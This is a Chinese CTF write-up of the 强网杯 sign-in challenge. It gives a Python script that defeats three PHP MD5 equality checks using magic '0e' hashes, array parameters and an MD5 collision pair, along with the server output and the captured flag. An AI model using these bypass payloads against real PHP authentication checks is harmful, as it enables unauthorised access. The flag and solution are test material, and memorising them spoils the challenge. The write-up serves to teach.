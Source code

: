 # 强网杯签到题

先上payload

```python
import requests
from binascii import unhexlify

data1 = {
	"param1": "QNKCDZO",
	"param2": "240610708"
}

data2 = {
	"param1[]": "1",
	"param2[]": "2"
}

data3 = {
	"param1": b'Oded Goldreich\nOded Goldreich\nOded Goldreich\nOded Go' + unhexlify('d8050d0019bb9318924caa96dce35cb835b349e144e98c50c22cf461244a4064bf1afaecc5820d428ad38d6bec89a5ad51e29063dd79b16cf67c12978647f5af123de3acf844085cd025b956'),
	"param2": b'Neal Koblitz\nNeal Koblitz\nNeal Koblitz\nNeal Koblitz\n' + unhexlify('75b80e0035f3d2c909af1baddce35cb835b349e144e88c50c22cf461244a40e4bf1afaecc5820d428ad38d6bec89a5ad51e29063dd79b16cf6fc11978647f5af123de3acf84408dcd025b956')
}

url = "http://39.107.33.96:10000/index.php"

u = requests.session()

s = u.get(url)
print(s.text.partition("<h2>")[2].partition("</h2>")[0])
s = u.post(url, data = data1)
print(s.text)

s = u.get(url)
print(s.text.partition("<h2>")[2].partition("</h2>")[0])
s = u.post(url, data = data2)
print(s.text)

s = u.get(url)
print(s.text.partition("<h2>")[2].partition("</h2>")[0])
s = u.post(url, data = data3)
print(s.text)
```

输出结果


```
The Fisrt Easy Md5 Challenge
success!<script>alert('success!');location.href='/';</script>
The Second Easy Md5 Challenge
success!<script>alert('success!');location.href='/';</script>
Md5 Revenge Now!
success! flag is QWB{s1gns1gns1gnaftermd5}
```

### 第一关

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
							die("success!");
```

0e绕过

###第二关

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
							die("success!");
						}
```

数组绕过

### 第三关

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
					die("success!);
				}
```

md5碰撞

前面两个没难度，重点说这个

审计PHP代码，要求两个字符串不相等但md5值相等，很明确了，虽然md5是哈希算法，但已经可以碰撞了，网上可以搜到满足题目要求的字符串。

也可以使用工具生成。

><http://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip> 

```HTML
使用命令行打开
参数-o msg1.bin msg2.bin就能这两个文件中输出所求字符串
然后将该文件的十六进制值解码发送即可
```

注：payload里使用的字符串是网上找的